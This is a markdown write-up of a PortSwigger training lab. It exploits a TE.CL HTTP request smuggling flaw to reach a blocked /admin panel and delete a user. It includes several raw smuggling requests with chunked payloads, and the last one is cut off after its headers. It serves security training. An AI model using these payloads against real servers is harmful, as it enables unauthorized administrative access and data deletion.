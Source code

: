 #  Exploiting HTTP - request smuggling to bypass front-end security controls, TE.CL vulnerability

## 📌 Lab Details
- **Title**: Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability
- **Difficulty**: Practitioner
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/c91df7d449cc4882b6bc0e5d19694f659acdcfba2c19706c49c67f947891d53c?referrer=%2fweb-security%2frequest-smuggling%2fexploiting%2flab-bypass-front-end-controls-te-cl

## 🔍 Summary
This lab had a **front-end** that blocked `/admin` and a **back-end** that did not support chunked encoding. By sending a **TE.CL request smuggling attack**, we tricked the front-end into treating extra data as part of the current request, while the back-end interpreted it as a **new request**. 

## 🛠 Steps to Solve
1. Try to visit `/admin` and observe that the request is blocked.
2. Uncheck the "Update Content-Length" option in **Burp Repeater**.
3. Using Burp Repeater, issue the following request twice:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-length: 4
   Transfer-Encoding: chunked

   60
   POST /admin HTTP/1.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0
   ```
4. Observe that the merged request to `/admin` was rejected due to not using the header `Host: localhost`.
5. Issue the following request twice:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-length: 4
   Transfer-Encoding: chunked

   71
   POST /admin HTTP/1.1
   Host: localhost
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 15

   x=1
   0
   ```
6. Observe that you can now access the admin panel.
7. Using the previous response as a reference, change the smuggled request URL to delete `carlos`:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-length: 4
   Transfer-Encoding: chunked
   ```
